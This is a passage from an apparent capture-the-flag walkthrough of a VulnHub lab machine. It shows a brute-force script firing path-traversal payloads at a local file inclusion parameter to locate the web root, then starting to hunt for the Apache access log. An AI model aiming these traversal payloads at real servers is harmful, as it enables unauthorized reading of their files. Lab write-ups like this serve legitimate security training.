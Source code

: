 Using the custom wordlist with `fuzz.sh`, I was able to map out the next level.

```
# ./brute.sh "../../FUZZ/public_html/about.php" "About The Ether" custom.txt 
```
```
...
[+] Trying ../../theeTHER.CoM/public_html/about.php
[+] Trying ../../theeTHER.COm/public_html/about.php
[+] Trying ../../theeTHER.COM/public_html/about.php
[+] Trying ../../theEther.com/public_html/about.php

[!] Found: http://192.168.198.130/?file=../../theEther.com/public_html/about.php
```

With the rest of the higher levels mapped out fairly easy with the `common.txt` wordlist from SecLists, the **DocumentRoot** was finally determined to be: `/var/www/html/theEther.com/public_html`

![docroot](/assets/images/posts/evilscience-walkthrough/evilscience-8.png)

Sweet!

### Access Log

Since I can't access the default `/var/log/apache2/access.log`, there is a possibility that the access log could be defined elsewhere, perhaps even somewhere near.

Using `quickhits.txt` from SecLists with `fuzz.sh`, I was able to map out this location.


[1]: https://www.vulnhub.com/entry/the-ether-evilscience-v101,212/
[2]: https://www.vulnhub.com/
[3]: https://httpd.apache.org/docs/2.4/mod/core.html#documentroot
[4]: https://github.com/danielmiessler/SecLists